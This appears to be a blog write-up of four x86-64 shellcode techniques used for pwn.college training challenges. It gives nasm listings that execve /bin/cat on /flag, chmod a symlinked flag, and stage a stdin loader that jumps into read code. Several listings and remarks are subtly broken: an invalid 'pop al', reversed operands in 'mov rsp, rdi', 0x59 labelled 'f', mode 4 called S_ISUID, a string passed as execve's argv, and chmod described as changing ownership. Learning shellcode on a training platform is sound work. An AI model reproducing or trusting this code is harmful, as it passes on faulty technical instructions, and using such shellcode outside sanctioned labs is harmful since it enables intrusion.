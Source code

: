 # The 4 Types of Shellcode I Used For pwn.college #

I recently completed the pwn.college Shellcode Injection module. I was never
really interested in actually learning how to shellcode because I thought I
could just look up. Since this is the first module, I ended up giving it chance
and really enjoyed the problems.

https://i.imgur.com/iHF8get.png

The 4 Types of Shellcode I used for the challenges were:
1. Pushing strings to the stack, then execve
2. Declaring strings in the shellcode, then execve
3. Using `chmod` to change the flag permissions
4. Using a loader to stage the actual shellcode

These were all assembled in `nasm`. My command looked something like \
```
nasm -f bin exploit.asm
```
The standard way taught in tutorials is to assemble it into an ELF file and then
take out the .text section. The `-f` flag just outputs a flat binary.

These are PoCs and must be substantially modified to actually solve later levels.

### Pushing strings to the stack

```asm
BITS 64
 
_start:
 xor rsi, rsi
 push rsi ; /flag terminator
 mov rsi, 0x67616c662f ; the chars of '/flag' represented as one integer
 push rsi
 mov rsi, rsp ; rsi = &"/flag"
 
 xor rdi, rdi
 push rdi ; /bin/cat terminator
 mov rdi, 0x7461632F6E69622F ; '/bin/cat'
 push rdi
 mov rdi, rsp ; rsp = &"/bin/cat"
 
 xor rdx, rdx
 
 push rdx ; arguments array terminator
 push rsi ; push &"/flag"
 push rdi ; push &"/bin/cat"
 mov rsi, rsp ; rsi = [&"/bin/cat", &"/flag"]
 
 mov rax, 59
 syscall
```

This is the one I started out with. I thought it was cooler than just declaring
bytes. I couldn't get `/bin/sh` to work so I just used `/bin/cat` instead. This
one takes up the most space out of all the shellcode we are reviewing
today.

### Declaring strings in the shellcode

```asm
BITS 64
 
_start:
 mov edi, bin_str
 mov esi, bin_str
 xor rdx, rdx

 push 59
 pop al
 syscall

 bin_str: db "/bin/cat", 0
 flag_str: db "/flag", 0
```

This version is much easier to understand and a little smaller.

### `chmod`ing the Flag

```asm
BITS 64
 
_start:
 push 0x59 ; 'f' 
 mov rsp, rdi ; rdi = &"f"
 mov rsi, 4 ; S_ISUID   

 mov rax, 0x5a ; chmod syscall
 syscall
```

Now we are getting super small. This shellcode requires a little preparation.
You have to create a symlink to the flag in the local directory named `f`. The
syscall changes the ownership of the symlink (which refers to the flag) to the 
user. The symlink does not have to named `f`.

### Loader from stdin

```asm
BITS 64

_start:
 mov rdi, 0 ; fd = 0 (stdin)
 mov rsi, (rwx buffer) ; buf
 mov rdx, 0x100 ; count = 0x100

 mov rax, 0
 syscall
 jmp rsi
```

This can be further minimized (exercise for the reader). One technique for
futher optimization is looking at what is in your registers at the time of
execution. Maybe some registers already have a zero. Maybe you can use `eax`
instead of `rax` to avoid the `REX` prefix.
